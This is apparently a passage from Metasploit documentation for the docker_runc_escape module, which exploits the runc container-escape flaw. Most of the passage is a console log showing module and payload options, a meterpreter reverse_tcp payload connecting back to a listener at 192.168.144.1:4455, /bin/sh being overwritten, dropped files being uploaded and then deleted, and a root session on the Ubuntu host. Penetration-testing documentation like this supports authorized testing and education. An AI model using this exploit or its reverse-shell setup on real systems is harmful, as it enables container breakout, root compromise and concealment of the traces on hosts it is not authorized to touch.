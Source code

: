 ```
Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.144.1    yes       The listen address (an interface may be specified)
   LPORT  4455             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (Dropper) x64


msf exploit(linux/local/docker_runc_escape) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.144.1:4455
[*] Make a backup of /bin/sh (/tmp/wSCJRb1)
[*] Overwrite /bin/sh
[*] Upload payload
[*] Writing '/tmp/pMQAa0FYW' (250 bytes) ...
[*] Upload exploit
[*] Writing '/tmp/IP8LtTm7' (8672 bytes) ...
[*] Upload loop shell script ('runc' will be backed up to /tmp/MKM9z)
[*] Writing '/tmp/k41AYY' (344 bytes) ...
[*] Launch exploit loop and wait for 300 sec.
[*] Sending stage (3012548 bytes) to 192.168.144.135
[+] Deleted /tmp/pMQAa0FYW
[+] Deleted /tmp/IP8LtTm7
[+] Deleted /tmp/k41AYY
[+] Original runc binary restored
[*] Meterpreter session 2 opened (192.168.144.1:4455 -> 192.168.144.135:51916) at 2021-05-21 19:01:03 +0200
[*] Done. Waiting a bit more to make sure everything is setup...
[+] Session ready!

meterpreter > getuid
Server username: root @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.144.135
OS           : Ubuntu 18.04 (Linux 5.4.0-72-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > [*] Shutting down Meterpreter...
```

## Docker version 18.03.1-ce (build 9ee9f40) on Fedora 28 x64
```
msf exploit(linux/local/docker_runc_escape) > options

Module options (exploit/linux/local/docker_runc_escape):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   OVERWRITE    /bin/sh          yes       Shell to overwrite with /proc/self/exe
   SESSION      1                yes       The session to run this module on.
   SHELL        /bin/bash        yes       Shell to use in exploit script (must be different than OVERWRITE shell)
```

[1]: https://github.com/opencontainers/runc/releases/tag/v1.0.0-rc7
[2]: https://github.com/opencontainers/runc/commit/6635b4f0c6af3810594d2770f662f34ddc15b40d
[3]: https://github.com/docker/docker-ce/releases/tag/v18.09.2